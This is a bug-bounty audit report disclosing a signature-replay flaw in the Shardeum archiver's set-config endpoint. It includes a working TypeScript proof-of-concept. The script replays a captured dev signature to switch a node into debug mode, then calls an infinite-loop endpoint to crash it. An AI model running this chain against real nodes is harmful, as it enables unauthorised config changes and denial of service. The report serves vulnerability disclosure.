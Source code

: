 # #39284 \[W\&A-Medium] Arbitrarily set any archiver config and remotely turning it off

**Submitted on Jan 27th 2025 at 05:13:23 UTC by @Franfran for** [**Audit Comp | Shardeum: Ancillaries III**](https://immunefi.com/audit-competition/audit-comp-shardeum-ancillaries-iii)

* **Report ID:** #39284
* **Report Type:** Websites and Applications
* **Report severity:** Medium
* **Target:** https://github.com/shardeum/archive-server/tree/itn4
* **Impacts:**
  * Execute arbitrary system commands
  * Taking and/modifying authenticated actions (with or without blockchain state interaction) on behalf of other users without any interaction by that user, such as:
* Changing registration information
* Commenting
* Voting
* Making trades
* Withdrawals, etc.
  * Taking down the application/website

## Description

## Brief/Intro

A `set-config` endpoint request can be intercepted when sent by the dev key in order to be replayed and change arbitrary configuration on any archiver node.\
Some key configuration can be changed which might be very problematic for the network.

## Vulnerability Details

The `set-config` endpoint contains a [pre handler](https://github.com/shardeum/archiver/blob/16c562ba5c7453da8b76b39be27fbd66b9de8972/src/API.ts#L998) called `isDebugMiddleware` which checks if the node was set in debug mode (unlikely for anyone to set their config like this for a production setup), or that the "dev" key signed a message in order to pass that check.\
The issue is that only the `route` and `count` are part of the message, and not the message itself.\
The route in this case would be `"/set-config"`, and the count is the current timestamp in order to avoid replay attacks.\
Knowing this, we can save a message that was sent to us by the dev to alter the config and forward it to another node as long as it didn't received this dev message before us since it works as long as the signed `count` is [greater than the `lastCounter`](https://github.com/shardeum/archiver/blob/2b3fc5322b03afb4b2f6159ee662798b96cb4ca2/src/DebugMode.ts#L35), and alter the new config as wish.

## Impact Details

Some keys cannot be overwritten such as [ARCHIVER\_IP, ARCHIVER\_PORT, ARCHIVER\_HASH\_KEY, ARCHIVER\_SECRET\_KEY, ARCHIVER\_PUBLIC\_KEY](https://github.com/shardeum/archiver/blob/16c562ba5c7453da8b76b39be27fbd66b9de8972/src/API.ts#L1002-L1008).\
Knowing this, we could for instance impersonate the dev by rewriting the `DevPublicKey` or even the `ARCHIVER_MODE` key to completely bypass the `isDebugMiddleware` prehandler.\
This grants us access to some dev-only methods that could cause harm to the node.\
There is the `debug-inf-loop` method which just runs an infinite loop for fun that could be called.

In summary, if the dev sends us a `set-config` first, we could completely take down the entire network of archivers.

## References

Links attached when applicable

## Proof of Concept

## Proof of Concept

Let's modify the script under `scripts/update_config.ts`

```ts
import axios from 'axios'  
import { join } from 'path'  
import { Utils } from '@shardus/types'  
import * as crypto from '@shardus/crypto-utils'  
import { config, overrideDefaultConfig } from '../src/Config'  
import {hashObj} from "@shardus/crypto-utils";  
  
const VICTIM_PORT = 4000;  
  
/////////////////////////////////// SETUP ///////////////////////////////////  
const configFile = join(process.cwd(), 'archiver-config.json')  
overrideDefaultConfig(configFile)  
  
crypto.init(config.ARCHIVER_HASH_KEY)  
  
const DEV_KEYS = {  
    pk: config.ARCHIVER_PUBLIC_KEY,  
    sk: config.ARCHIVER_SECRET_KEY,  
};  
/////////////////////////////////// SETUP ///////////////////////////////////  
  
function sign<T>(obj: T, sk: string, pk: string): T & any {  
  const objCopy = JSON.parse(crypto.stringify(obj))  
  crypto.signObj(objCopy, sk, pk)  
  objCopy["sig"] = objCopy.sign["sig"];  
  return objCopy  
}  
  
function createSignature(data: any, pk: string, sk: string): any {  
  return sign({ ...data }, sk, pk)  
}  
  
async function setConfig(port: number, body: any, query: any) {  
  axios  
      .patch(`http://127.0.0.1:${port}/set-config`, body, {  
        headers: {  
          'Content-Type': 'application/json',  
        },  
        params: query  
      })  
      .then((response) => {  
        console.log(response.data)  
      })  
      .catch((error) => {  
        if (error.response) {  
          console.error(error.response)  
        } else {  
          console.error(error.message)  
        }  
      })  
}  
  
const receiveDevSetConfig = async (): Promise<any> => {  
    const count = new Date().getTime().toString();  
    const query = {  
        route: "/set-config",  
        count: count,  
    };  
    const signed = createSignature(query, DEV_KEYS.pk, DEV_KEYS.sk);  
    signed["sig_counter"] = count;  
  
    // let's say we receive this update from the dev  
    const UPDATE_CONFIG = {  
        VERBOSE: true,  
        RATE_LIMIT: 200,  
    };  
    return signed;  
}  
  
const kill = async () => {  
    axios  
        .get(`http://127.0.0.1:${VICTIM_PORT}/debug-inf-loop`)  
        .then((response) => {  
            console.log(response.data)  
        })  
        .catch((error) => {  
            if (error.response) {  
                console.error(error.response)  
            } else {  
                console.error(error.message)  
            }  
        })  
}  
  
const updateVictimConfig = async (signed: any) => {  
    // set victim config to debug to bypass the prehandler  
    const UPDATE_CONFIG = {  
        ARCHIVER_MODE: 'debug'  
    };  
    const body = Utils.safeStringify(UPDATE_CONFIG);  
    await setConfig(VICTIM_PORT, body, signed);  
    kill();  
}  
  
const runAttack = async () => {  
   const signed = await receiveDevSetConfig();  
   await updateVictimConfig(signed);  
}  
  
runAttack();
```

This POC will:

1. Wait until we receive a `set-config` message from the dev
2. Copy the sig and forward it to another archiver to call the `set-config` endpoint and set their `ARCHIVER_MODE` to `"debug"`
3. Call the `/debug-inf-loop`, see the CPU usage of the archiver and wait for it to get killed

![Image](https://github.com/user-attachments/assets/03ef3a91-332c-422a-ac03-dbd7d8219c8e)
